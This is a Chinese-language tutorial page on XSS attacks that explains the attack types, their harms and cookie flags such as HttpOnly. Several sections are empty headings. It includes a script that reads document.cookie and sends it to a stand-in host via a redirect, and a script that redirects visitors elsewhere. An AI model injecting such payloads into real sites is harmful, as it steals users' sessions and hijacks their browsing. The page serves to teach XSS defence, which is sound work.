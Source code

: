 ```yaml
---
title: XSS攻击原理及防范
---
```

[web安全之 XSS攻击与防御](https://www.bilibili.com/video/av56520828?from=search&seid=10110424041084593238)
## 基本概念
XSS即跨站脚本攻击(Cross Site Scripting)，为不和CSS(层叠样式表-Cascading Style Sheets)的缩写混淆，将跨站脚本攻击缩写为XSS。

XSS的原理是：**恶意攻击者在页面中插入恶意的`script`代码，当用户浏览该页面时，嵌入页面中的`script`代码就会被执行，从而达到恶意攻击用户的目的**。
::: tip
XSS的重点不在于跨站攻击而**在于脚本攻击**。攻击者可以利用web应用的漏洞或缺陷之处，向页面注入恶意的程序或代码，以达到攻击的目的。
:::
通俗来讲就是：我们的页面在加载并且渲染绘制的过程中，如果加载并执行了意料之外的程序或代码（脚本、样式），就可以认为是受到了XSS攻击。
XSS攻击最主要有如下分类：反射型、存储型、及DOM-based型。反射型和DOM-baseed型可以归类为非持久性XSS攻击。存储型可以归类为持久性XSS攻击。
## XSS的危害
* 通过`document.cookie`盗取`cookie`中的信息；
* 使用`js或css`破坏页面正常的结构与样式；
* 流量劫持（通过访问某段具有`window.location.href`定位到其他页面）；
* **dos攻击**：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。
* 利用`iframe、frame、XMLHttpRequest或上述Flash`等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用`iframe`，`frame`进一步的进行`CSRF`攻击。
* 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力。

XSS是一种经常出现在web应用中的计算机安全漏洞，它允许恶意web用户将代码植入到提供给其他用户使用的页面中，从而对用户进行攻击。

XSS常见攻击：
1. 盗取用户账号(窃取网页浏览中的cookie值)；
2. 非法转账；
3. 篡改系统信息；
4. 网站挂马

## 窃取网页浏览中的cookie值
如何用XSS攻击盗取用户账号？

在网页浏览中我们常常涉及到用户登录，登录完毕之后服务端会返回一个cookie值。这个cookie值相当于一个令牌，拿着这张令牌就等同于证明了你是某个用户。
如果你的cookie值被窃取，那么攻击者很可能能够直接利用你的这张令牌不用密码就登录你的账户。如果想要通过script脚本获得当前页面的cookie值，通常会用到document.cookie。
试想下如果像空间说说中能够写入xss攻击语句，那岂不是看了你说说的人的号你都可以登录（不过某些厂商的cookie有其他验证措施如：Http-Only保证同一cookie不能被滥用）
```js
var cookie = document.cookie; // 获取浏览器的cookie值
window.location.herf = 'http://127.0.0.1/index.php?cookie=' + cookie;
```
### cookie安全策略
在服务器端设置cookie的时候设置 http-only, 这样就可以防止用户通过JS获取cookie。对cookie的读写或发送一般有如下字段进行设置：
* http-only: 使得在客户端无法通过js脚本来操作cookie(document.cookie会显示http-only的cookie项被自动过滤掉)，只允许http或https请求读取cookie，防止用户账号被盗。发送请求时自动发送cookie。
* secure-only: 只允许https请求读取，发送请求时自动发送cookie。
* host-only: 只允许主机域名与domain设置完成一致的网站才能访问该cookie。

## 劫持流量实现恶意跳转
这个很简单，就是在网页中想办法插入一句像这样的语句：
```html
<script>
    window.location.href="http://www.baidu.com";
</script>
```
那么所访问的网站就会被跳转到百度的首页。
早在2011年新浪就曾爆出过严重的xss漏洞，导致大量用户自动关注某个微博号并自动转发某条微博。具体各位可以自行百度。
## XSS非法转账

## 反射型XSS

## 利用与绕过

## 参考文档
1. [前端安全系列（一）：如何防止XSS攻击？](https://tech.meituan.com/2018/09/27/fe-security.html)
2. [根据白名单过滤HTML(防止 XSS 攻击)](https://github.com/leizongmin/js-xss/blob/master/README.zh.md)
3. [XSS攻击原理分析与防御技术](https://segmentfault.com/a/1190000013315450)
4. [浅谈XSS攻击的那些事（附常用绕过姿势）](https://zhuanlan.zhihu.com/p/26177815)
5. [与《Yii框架》不得不说的故事—安全篇](https://www.imooc.com/learn/467)
6. [Web安全-XSS](https://www.imooc.com/learn/812)
7. [WEB安全 - 认识与防御XSS攻击](https://www.cnblogs.com/HCJJ/p/9468871.html)
8. [web安全之XSS攻击原理及防范](https://www.cnblogs.com/tugenhua0707/p/10909284.html)
9. [Yii框架不得不说的故事—安全篇（3）](https://www.imooc.com/learn/467)
10. [Web安全-XSS](https://www.imooc.com/learn/812)
11. [浅说 XSS 和 CSRF](https://github.com/dwqs/blog/issues/68)